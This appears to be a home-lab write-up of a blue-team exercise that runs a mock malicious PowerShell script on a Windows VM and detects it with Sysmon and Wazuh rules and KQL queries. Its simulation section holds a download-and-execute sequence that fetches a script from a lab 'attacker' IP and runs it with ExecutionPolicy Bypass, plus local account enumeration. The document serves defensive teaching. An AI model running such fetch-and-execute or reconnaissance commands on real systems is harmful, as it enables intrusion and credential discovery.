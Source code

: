 # Phase 2: Scenario 2 - Malicious Script Execution

## Attack Overview
- **Description**: Simulated a malicious PowerShell script executed directly on the Windows VM, performing actions like creating a ransomware-like file, enumerating users, and attempting network communication. This mimics an insider threat or compromised user executing a script for reconnaissance or data exfiltration.
- **MITRE ATT&CK**: 
  - [T1059.001 - Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
  - [T1087.002 - Account Discovery: Local Account](https://attack.mitre.org/techniques/T1087/002/)
  - [T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)
- **Objective**: Demonstrate detection of malicious PowerShell script execution, file creation, and network activity using Sysmon and Wazuh on Windows.
- **Date and Time**: June 14, 2025, ~11:51 PM IST

## Simulation Details
- **Environment**: 
  - **Target**: Windows 10 (hostname: `DESKTOP-FF0MPJM`, IP: `192.168.1.101`, Wazuh agent: `SIEM-Target-Windows`).
  - **Attacker**: Script executed locally; optional file download from Arch Linux (IP: `192.168.1.55`).
- **Sysmon Config**: SwiftOnSecurity `sysmonconfig-export.xml`.
- **Simulation Command From Arch Linux (Optional)**:
  ```bash
  echo 'Write-Output "Malicious PowerShell script executed" | Out-File -FilePath C:\Temp\ransom.txt; net user > C:\Temp\user_list.txt; whoami >> C:\Temp\user_list.txt; ping 192.168.1.55 -n 4' > /tmp/malicious.ps1
  python3 -m http.server 80 -d /tmp/
  ```
- **Simulation Command From Windows**:
  - **Option 1: Download and Execute**:
    ```powershell
    Invoke-WebRequest -Uri http://192.168.1.55:80/malicious.ps1 -OutFile C:\Temp\malicious.ps1
    powershell -ExecutionPolicy Bypass -File C:\Temp\malicious.ps1
    ```
  - **Option 2: Direct Execution**:
    ```powershell
    Set-Content -Path C:\Temp\malicious.ps1 -Value 'Write-Output "Malicious PowerShell script executed" | Out-File -FilePath C:\Temp\ransom.txt; net user > C:\Temp\user_list.txt; whoami >> C:\Temp\user_list.txt; ping 192.168.1.55 -n 4'
    powershell -ExecutionPolicy Bypass -File C:\Temp\malicious.ps1
    ```
- **Execution**:
  1. Created `malicious.ps1` (downloaded or locally created).
  2. Executed the script, which:
     - Created `C:\Temp\ransom.txt`.
     - Ran `net user` and `whoami`, saving to `C:\Temp\user_list.txt`.
     - Pinged `192.168.1.55`.
  3. Verified outputs: `type C:\Temp\ransom.txt`, `type C:\Temp\user_list.txt`.
- **Expected Events**:
  - **Sysmon Event ID 11**: File creation of `C:\Temp\malicious.ps1`, `C:\Temp\ransom.txt`, `C:\Temp\user_list.txt`.
  - **Sysmon Event ID 1**: Process creation of `powershell.exe`, `net.exe`, `whoami.exe`, `ping.exe`.
  - **Sysmon Event ID 3**: Network connection to `192.168.1.55`.
  - **Wazuh**: Alerts triggered by rule IDs 100002 and 100004.

## Detection in Wazuh
- **Wazuh Rules**:
  - Rule ID 100002 (script execution):
    ```xml
    <rule id="100002" level="13">
      <if_sid>61601</if_sid>
      <field name="sysmon.image">powershell\.exe|cmd\.exe</field>
      <field name="sysmon.command_line">C:\\Temp\\|C:\\Users\\|meterpreter</field>
      <description>Malicious script execution via Meterpreter</description>
      <mitre>
        <id>T1059.001</id>
        <id>T1059.003</id>
      </mitre>
    </rule>
    ```
  - Rule ID 100004 (beaconing):
    ```xml
    <rule id="100004" level="12">
      <if_sid>61603</if_sid>
      <field name="sysmon.destination_ip">192\.168\.1\.55</field>
      <field name="sysmon.destination_port">80|443</field>
      <description>Potential beaconing to attacker IP</description>
      <mitre>
        <id>T1071.001</id>
      </mitre>
    </rule>
    ```
- **Search Query** (Wazuh Dashboard > Security Events > Discover):
  ```kql
  rule.id:(100002 OR 100004) AND agent.name:SIEM-Target-Windows AND (sysmon.image:"powershell.exe" OR sysmon.destination_ip:"192.168.1.55")
  ```
- **Findings**:
  - Observed 1+ alerts with `rule.id:100002` for `powershell.exe` executing `C:\Temp\malicious.ps1`.
  - Observed 1+ alerts with `rule.id:100004` for `ping.exe` to `192.168.1.55`.
  - Sysmon Event ID 11 logged file creations.
  - Event ID 1 captured `powershell.exe`, `net.exe`, `whoami.exe`, `ping.exe`.
  - Event ID 3 logged network connection.
  - High `rule.level:13` and `12` indicate critical alerts.
- **Screenshots**:
  - `Screenshots/wazuh_alerts_script.png`: Wazuh Dashboard alert list.
  - `Screenshots/sysmon_log_script.png`: Sysmon events in Event Viewer.
  - `Screenshots/powershell_output.png`: PowerShell script output.
- **Logs**:
  - `Logs/sysmon_events_script.evtx`: Exported Sysmon logs.
  - `Logs/wazuh_agent_filtered_script.log`: Wazuh agent log entries.

## Learnings
- **Blue Teaming Insight**: Malicious PowerShell scripts performing file creation, process execution, and network activity are highly detectable. Sysmon’s granular logging and Wazuh’s rules pinpoint unauthorized actions in `C:\Temp`.
- **Challenges**: Legitimate scripts in `C:\Temp` may trigger false positives; filtering by specific commands reduces noise. Network-based rules may need tuning.
- **Technical Growth**: Learned to craft realistic malicious PowerShell scripts, analyze Sysmon events, and combine KQL queries for script and network alerts.
- **Best Practice**: Monitor `C:\Temp` for suspicious files, audit `powershell.exe` command lines, and set alerts for unexpected network destinations.

## Detection Logic Query
```kql
rule.id:(100002 OR 100004) AND agent.name:SIEM-Target-Windows AND (sysmon.image:"powershell.exe" OR sysmon.destination_ip:"192.168.1.55")
```
- **Purpose**: Identifies malicious script execution and potential beaconing.
- **Outcome**: High-severity alerts for unauthorized activity.

## References
- [MITRE ATT&CK: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- [MITRE ATT&CK: Account Discovery](https://attack.mitre.org/techniques/T1087/002/)
- [MITRE ATT&CK: Application Layer Protocol](https://attack.mitre.org/techniques/T1071/001/)
- [Wazuh Documentation: Sysmon Integration](https://documentation.wazuh.com/current/user-manual/ruleset/sysmon.html)

## Attachments
- **Logs**: [DetectAndDefend/Phase2/Scenario-2-MaliciousScriptExecution/Logs/]()
- **Screenshots**:
  1. [Attack Simulation in PowerShell](/DetectAndDefend/Phase2/Scenario-2-MaliciousScriptExecution/Screenshots/attack-command-powershell.png)
  2. [Wazuh Dashboard with Event Logs](/DetectAndDefend/Phase2/Scenario-2-MaliciousScriptExecution/Screenshots/wazuh-dashboard-event-logs.png)
  3. [Wazuh Dashboard with Event Logs Only!](/DetectAndDefend/Phase2/Scenario-2-MaliciousScriptExecution/Screenshots/event-logs-script.png)